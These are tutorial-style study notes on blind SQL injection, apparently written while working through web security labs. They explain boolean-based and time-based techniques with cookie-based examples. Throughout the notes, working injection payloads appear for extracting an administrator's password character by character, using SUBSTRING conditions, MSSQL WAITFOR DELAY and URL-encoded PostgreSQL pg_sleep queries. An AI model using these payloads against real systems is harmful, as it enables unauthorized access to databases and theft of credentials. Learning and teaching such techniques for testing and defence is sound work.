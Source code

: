 ## What is blind SQL Injection?

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as [[UNION SQLi]] are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. 

It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

---
## Boolean-based Blind SQLi

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:

```http
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

When a request containing a `TrackingId` cookie is processed, the application uses a SQL query to determine whether this is a known user:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

This query is vulnerable to SQL injection, but the results from the query are not returned to the user. 

However, the application does behave differently depending on whether the query returns any data. If you submit a recognized `TrackingId`, the query returns data and you receive a "Welcome back" message in the response.

This behavior is enough to be able to exploit the blind SQL injection vulnerability. You can retrieve information by triggering different responses conditionally, depending on an injected condition.

> [!example] Example 1. Blind SQL with Cookie TrackingId
> To understand how this exploit works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
> 
> ```sql
> …xyz' AND '1'='1 
> …xyz' AND '1'='2
> ```
> 
> - The first of these values causes the query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
> - The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
> 
> This allows us to determine the answer to any single injected condition, and extract data one piece at a time.

> [!example] Example 2. Blind SQL against Password in DB
> For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. You can determine the password for this user by sending a series of inputs to test the password one character at a time.
> 
> To do this, start with the following input:
> 
> ```sql
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'
> ```
> 
> This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.
> 
> Next, we send the following input:
> 
> ```sql
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't'
> ```
> 
> This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
> 
> Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is `s`:
> 
> ```sql
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
> ```
> 
> We can continue this process to systematically determine the full password for the `Administrator` user.

> The `SUBSTRING` function is called `SUBSTR` on some types of database. For more details, see the SQL injection cheat sheet.

---
## Time-based Blind SQLi
If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors ([[Error-based SQLi]]) will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response.

The techniques for triggering a time delay are specific to the type of database being used. 

> [!example] MsSQL Server example for Time-based SQLi
> For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true:
> 
> ```sql
> '; IF (1=2) WAITFOR DELAY '0:0:10'-- '; IF (1=1) WAITFOR DELAY '0:0:10'--
> ```
> 
> - The first of these inputs does not trigger a delay, because the condition `1=2` is false.
> - The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

> [!example] MsSQL Server Get DB password using Time-based blind SQLi
> Using this technique, we can retrieve data by testing one character at a time:
> 
> ```sql
> '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
> ```

> [!info]
> There are various ways to trigger time delays within SQL queries, and different techniques apply on different types of database. For more details, see the SQL injection cheat sheet.

> [!attention] URL Encoding
> Make sure to url encode your SQLi

> [!important] Lab Time-based blind SQLi using PostgreSQL
> Basic Test for time based blind SQLi:
> ```sql
> '; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
> ```
> Web encoded version:
> ```sql
> '%3B+SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END--
> ```
> 
> Check if user exists:
> ```sql
> '; SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
> ```
> Web encoded version:
> ```sql
> '%3B+SELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--
> ```
> 
> Test Password (Encoded version):
> ```sql
> '%3B+SELECT+CASE+WHEN+(SUBSTR(password,1,1)='a')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users+WHERE+username='administrator'--
> ```

